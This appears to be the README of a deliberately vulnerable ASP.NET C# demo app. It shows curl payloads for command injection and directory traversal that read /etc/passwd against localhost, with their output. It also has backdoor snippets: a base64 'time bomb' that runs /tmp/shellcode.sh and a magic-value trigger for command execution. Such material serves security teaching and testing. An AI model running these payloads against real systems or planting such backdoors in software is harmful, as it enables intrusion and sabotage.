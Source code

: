 # ASP.NET C\# Vulnerability Demo

## Setup
* cd ${workplace}
* docker-compose up --build
* {open browser and navigate to localhost:5005}

## Vulnerability Demo

### SQL Injection:

### Remote code execution:
- Command-Line Demo:
    ```sh
    $ curl -X GET -d "name=cat /etc/passwd" http://localhost:5005/ExecCmdSecure
   
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nolog
    ```

### Directory traversal:

- Command-Line Demo:
    ```sh
    $ curl -X GET -d "name=../../etc/passwd" http://localhost:5005/dirTraversal
   
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nolog
    ```
http://localhost:5005/dirTraversal?name=${name}`

### Hard Coded credentials:

### Sensitive data leak:

### Insider attack:
1.  Time Bomb pattern
    ```java
    // RECIPE: Time Bomb pattern
    String command = "c2ggL3RtcC9zaGVsbGNvZGUuc2g=";
    ticking(command);
    ```
    
2. Magic Value leading to command injection
    ```java
    if (tracefn == "C4A938B6FE01E") {
        runtTimeExec(cmd);
    }
    ```


### Business logic flaw
- [Code Snippet](https://gitlab.com/irobert0126/aspdotnet_csharp_vuln_demo/tree/master/SqlInjection/Controllers/OrderController.cs):
    ```java
    [HttpPost("AddNewOrder")]
    public ActionResult AddNewOrderFlaw(string reader) {
        Order order = JsonConvert.DeserializeObject<Order>(reader);
        return Content(order.ToString());
    }
    ```
- Command-Line Demo:
    ```sh
    $ curl -X POST -d "reader={\"Id\":0,\"AspNetUserId\":1,\"LastName\":\"Xu\",\"FirstName\":\"Zhaoyan\",\"FullName\":\"Luke\'' Father\",\"AspNetUser\":null}" http://localhost:5005/AddNewOrder
    
      SqlInjection.Models.Order 
    ```
- UI Demo:
